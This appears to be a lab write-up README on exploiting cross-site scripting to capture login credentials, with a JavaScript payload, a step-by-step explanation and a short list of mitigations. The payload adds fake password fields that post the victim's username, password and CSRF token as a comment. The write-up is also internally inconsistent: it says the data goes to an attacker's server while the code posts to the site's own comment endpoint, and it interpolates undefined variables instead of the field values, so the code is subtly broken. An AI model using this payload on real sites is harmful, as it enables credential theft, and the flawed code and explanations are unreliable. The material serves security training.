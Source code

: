 # Lab: Exploiting Cross-Site Scripting to Capture Passwords

This README describes an attack scenario where Cross-Site Scripting (XSS) is used to steal user credentials, specifically the username and password, by executing malicious JavaScript on the victim’s browser.

---

## Attack Overview

- The attack targets a web form with input fields for username and password.
- The password input has an `onchange` event that triggers a JavaScript function, `hax()`.
- An attacker injects malicious code that, when executed, sends the captured username and password to the attacker’s server.
- The payload does not require user interaction other than the victim entering credentials normally.

---

## Exploitation Payload
```
<input type="text" name="username">
<input type="password" name="password" onchange="hax()">

<script>
    function hax(){
    var token = document.getElementsByName('csrf')[0].value
    var data = new FormData()
    
    data.append('csrf' , token);
    data.append('postId' , 5 );
    data.append('comment', `${username}:${password}`);
    data.append('name', 'Harish');
    data.append('email', 'harish@gmail.com');
    data.append('website','http://www.harish.com');
    fetch('/post/comment',{
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
    }
    </script>

 ```
**Note:**  
- The attacker can inject this script into a vulnerable input field, or design a malicious webpage that exploits reflected XSS to run this code in the victim’s browser.
- When the user enters their username and password, the `hax()` function automatically sends their credentials to the attacker's server.

---

## How It Works

1. **Initial Input Entry**  
   The user fills in the username and password fields.

2. **Triggering the Attack**  
   - The `onchange` event on the password field fires after the user enters their credentials.
   - The `hax()` function collects the username and password.
     ![image](https://github.com/galvin10/Portswigger-labs/blob/2d0cb852ac362fc0823acfe672d2d15f90586cc2/Exploiting%20cross-site%20scripting%20vulnerabilities/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/Screenshots/Screenshot%202025-10-08%20141553.png)

3. **Data Exfiltration**  
   - The script sends the credentials (along with CSRF token, email, website info) via `fetch()` to the server specified by the attacker.
   - Using `mode: 'no-cors'` ensures the request is sent without CORS restrictions.
   ![image](https://github.com/galvin10/Portswigger-labs/blob/2d0cb852ac362fc0823acfe672d2d15f90586cc2/Exploiting%20cross-site%20scripting%20vulnerabilities/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/Screenshots/Screenshot%202025-10-08%20141529.png)
---

## Mitigation Strategies

- Validate and sanitize all user inputs on the server.
- Prevent executing untrusted code by avoiding injection points.
- Use Content Security Policy (CSP) to restrict inline scripts.
- Enable `HttpOnly` flag on session cookies to prevent theft via JavaScript.
- Implement multi-factor authentication to mitigate credential theft risks.

    
